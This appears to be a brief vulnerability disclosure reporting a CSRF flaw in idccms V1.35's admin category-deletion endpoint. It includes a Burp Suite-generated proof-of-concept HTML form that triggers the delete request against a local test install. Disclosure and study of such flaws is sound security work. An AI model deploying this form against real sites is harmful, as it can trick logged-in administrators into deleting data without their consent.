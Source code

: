 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/idcProType_deal.php?mudi=del&dataType=&dataTypeCN=IDC%E5%95%86%E5%93%81%E7%B1%BB%E5%88%AB&theme=cs123&dataID=77

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/idcProType_deal.php?mudi=del&dataType=&dataTypeCN=IDC%E5%95%86%E5%93%81%E7%B1%BB%E5%88%AB&theme=cs123&dataID=77" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
